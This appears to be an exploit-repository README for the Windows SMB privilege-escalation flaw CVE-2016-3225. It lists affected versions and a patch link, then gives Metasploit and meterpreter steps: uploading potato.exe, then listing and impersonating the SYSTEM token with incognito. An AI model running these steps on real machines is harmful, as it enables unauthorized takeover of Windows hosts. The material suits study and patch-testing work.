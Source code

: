 ### CVE-2016-3225

#### Describe

The SMB server component in Microsoft Windows Vista SP2, Windows Server 2008 SP2 and R2 SP1, Windows 7 SP1, Windows 8.1, Windows Server 2012 Gold and R2, Windows RT 8.1, and Windows 10 Gold and 1511 allows local users to gain privileges via a crafted application that forwards an authentication request to an unintended service, aka "Windows SMB Server Elevation of Privilege Vulnerability."


#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          | x86/x64          |         |        |                    |
| Windows 10          | x86/x64          | 1511    |        |                    |
| Windows 7           | x86/x64          |         | SP1    | &#10004; |
| Windows 8.1         | x86/x64          |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 | x86/x64          |         | SP2    |                    |
| Windows Server 2008 | x86/x64          | R2      | SP1    |                    |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### Patch

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2016-3225
```

#### Utilization

> Note: You need to run the MSF to generate files with administrator privileges to raise to SYSTEM permissions.

Windows 7 SP1 x64测试中，use `whoami /priv` Command View Discovery None **SeiMpersonateprivilege** Privilege Potato Right requires this privilege to turn on, so use administrator privileges when testing

![image-20200819140202765](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-3225_win7_x64.png)

Use MSF + rotten potatoes，First we assume that the machine has been launched, through the plugins from the MSF to identify the EXP you can take advantage of the current system to carry out rights

```
use multi/recon/local_exploit_suggester
set session 1 #Current machine session
run
```

If you do not run the MSF generated EXE, the script test is like this.

![image-20200819112155945](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-3225_win7_x64_msf_1.png)

If you use the administrator privilege to run, you can see more than the above MS16_075.

![image-20200819140819782](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-3225_win7_x64_msf_2.png)

Compiling the files of bad potatoes

```
potato.exe
```

Then upload compilation files

```
upload /Users/ascotbe/Downloads/Potato.exe C:/Users/ascotbe #上传potato.exe到目标机器中的C:\Users\ascotbe目录下,msf无法识别\符号所以必须使用/符号
```

Then execute the following commands will be successful.

```
use incognito #加载incoginto功能（用来盗窃目标主机的令牌或是假冒用户)
list_tokens -u #列出目标主机用户的可用令牌
execute -cH -f C:/Users/ascotbe/potato.exe #创建新的进程
list_tokens -u #列出目标主机用户的可用令牌
impersonate_token "NT AUTHORITY\SYSTEM"#假冒目标主机上的可用令牌
```

![image-20200819141240274](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-3225_win7_x64_msf_3.png)

Enter the Shell View

![image-20200819141337651](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-3225_win7_x64_msf_4.png)

> Second utilization

CompilerEnvironment

- VS2019（V141）X64 Release

Since there is no **Seimpersonateprivilege** privilege, this is demonstrated by the administrator account, using the program **potatoNG.exe** directly GIF map

![4](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2016-3225_win7_x64.gif)

